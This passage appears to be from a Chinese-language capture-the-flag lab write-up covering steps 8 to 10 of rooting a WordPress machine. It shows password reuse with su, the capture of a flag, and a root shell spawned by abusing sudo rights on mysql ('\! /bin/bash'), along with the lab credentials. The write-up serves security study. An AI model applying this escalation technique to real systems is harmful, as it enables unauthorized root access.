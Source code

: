 ```
mysql -u admin -p Wp_Admin#123 -D wordpress
```

![image-20211117154804076](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117154804076.png)失败

### 8.尝试是否复用了Web页面的密码

```
su wpadmin
```

尝试输入密码adam14

![image-20211117154929085](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117154929085.png)

```
cat local.txt
```

![image-20211117155043263](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117155043263.png)

flag1:153495edec1b606c24947b1335998bd9

### 9.二次提权

```
sudo -l
```

提示可以执行的命令：

![image-20211117155135536](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117155135536.png)

```
sudo /usr/bin/mysql -u root -D wordpress -p    #输入密码adam14
```

![image-20211117155339940](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117155339940.png)

成功登录数据库

### 10.利用mysql数据库特性

当前启动的数据库进程是具有root权限的，结合mysql数据库 system 命令 的功能

```
system id 
```

![image-20211117155440756](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117155440756.png)

```
\! /bin/bash
```

![image-20211117155507429](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117155507429.png)
